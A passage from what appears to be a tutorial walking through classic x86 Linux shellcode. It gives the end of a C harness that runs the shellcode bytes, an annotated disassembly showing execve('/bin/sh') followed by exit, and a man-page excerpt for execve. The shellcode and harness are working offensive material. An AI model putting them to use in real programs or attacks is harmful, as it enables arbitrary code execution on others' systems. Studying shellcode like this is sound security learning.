 ```c
                   "\xcd\x80\x31\xc0\x40\xcd\x80";

int main()
{
  fprintf(stdout,"Lenght: %d\n",strlen(shellcode));
  (*(void  (*)()) shellcode)();
}
```

Before pressing the `i believe` button, let’s look at what the shell code does though. As usual, I don’t know why `\xcd\x80` calls an interrupt, it just does.

```asm
31 c0                 xor    %eax,%eax          ; Clear eax register (set it to 0)
50                    push   %eax               ; Push null byte onto the stack (used as a terminator)
68 2f 2f 73 68        push   $0x68732f2f        ; Push the string "//sh" onto the stack in reverse order
68 2f 62 69 6e        push   $0x6e69622f        ; Push the string "nib/" onto the stack in reverse order
89 e3                 mov    %esp,%ebx          ; Move the address of the top of the stack (which now contains the "/bin/sh" string) into ebx
89 c1                 mov    %eax,%ecx          ; Move 0 (null) into ecx (will be used as the second argument to execve, argv)
89 c2                 mov    %eax,%edx          ; Move 0 (null) into edx (will be used as the third argument to execve, envp)
b0 0b                 mov    $0xb,%al           ; Move the syscall number for execve (11) into al
cd 80                 int    $0x80              ; Invoke the syscall (execve("/bin/sh", 0, 0))
31 c0                 xor    %eax,%eax          ; Clear eax register (set it to 0)
40                    inc    %eax               ; Increment eax (set it to 1, which is the syscall exit number)
cd 80                 int    $0x80              ; Invoke the syscall (exit)
```

If you look closely, we’re reversing *”/bin/sh”* for the little endian format. Anyway, `execve` allows us to execute a program, or so it says in the `man-pages`:

```man
execve(2)                                       System Calls Manual                                      execve(2)

NAME
       execve - execute program

LIBRARY
       Standard C library (libc, -lc)

SYNOPSIS
       #include <unistd.h>

       int execve(const char *pathname, char *const _Nullable argv[],
                  char *const _Nullable envp[]);

DESCRIPTION
       execve() executes the program referred to by pathname.  This causes the program that is currently being run
       by the calling process to be replaced with a new program, with newly initialized stack, heap, and (initial‐
       ized and uninitialized) data segments.
```
